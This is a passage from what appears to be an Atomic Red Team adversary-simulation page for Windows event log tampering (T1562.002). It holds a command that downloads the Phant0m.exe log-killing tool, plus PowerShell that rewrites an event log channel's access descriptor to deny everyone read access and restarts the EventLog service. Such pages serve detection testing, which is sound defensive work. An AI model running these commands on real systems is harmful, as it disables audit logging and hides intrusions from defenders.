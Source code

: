 

#### Dependencies:  Run with `powershell`!
##### Description: Phant0m.exe must exist on disk at specified location (#{file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1562.002/bin/Phant0m.exe" -OutFile "#{file_name}" -UseBasicParsing
```




<br/>
<br/>

## Atomic Test #8 - Modify Event Log Channel Access Permissions via Registry - PowerShell
This test simulates an adversary modifying access permissions for a Windows Event Log Channel by altering the "ChannelAccess" registry value. Specifically, it changes the Security Descriptor Definition Language (SDDL) string. These modifications can restrict or grant access to specific users or groups, potentially aiding in defense evasion by controlling who can view or modify a event log channel.
Upon execution, the user shouldn't be able to access the event log channel via the event viewer or via utilities such as "Get-EventLog" or "wevtutil".

**Supported Platforms:** Windows


**auto_generated_guid:** 8e81d090-0cd6-4d46-863c-eec11311298f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ChannelPath | Path to the event log service channel to alter | string | HKLM:&#92;SOFTWARE&#92;Microsoft&#92;Windows&#92;CurrentVersion&#92;WINEVT&#92;Channels&#92;Microsoft-Windows-TaskScheduler/Operational|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty -Path #{ChannelPath} -Name "ChannelAccess" -Value "O:SYG:SYD:(D;;0x1;;;WD)"
Restart-Service -Name EventLog -Force -ErrorAction Ignore
```

#### Cleanup Commands:
```powershell
Set-ItemProperty -Path #{ChannelPath} -Name "ChannelAccess" -Value "O:BAG:SYD:(A;;0x2;;;S-1-15-2-1)(A;;0x2;;;S-1-15-3-1024-3153509613-960666767-3724611135-2725662640-12138253-543910227-1950414635-4190290187)(A;;0xf0007;;;SY)(A;;0x7;;;BA)(A;;0x7;;;SO)(A;;0x3;;;IU)(A;;0x3;;;SU)(A;;0x3;;;S-1-5-3)(A;;0x3;;;S-1-5-33)(A;;0x1;;;S-1-5-32-573)"
Restart-Service -Name EventLog -Force -ErrorAction Ignore
```
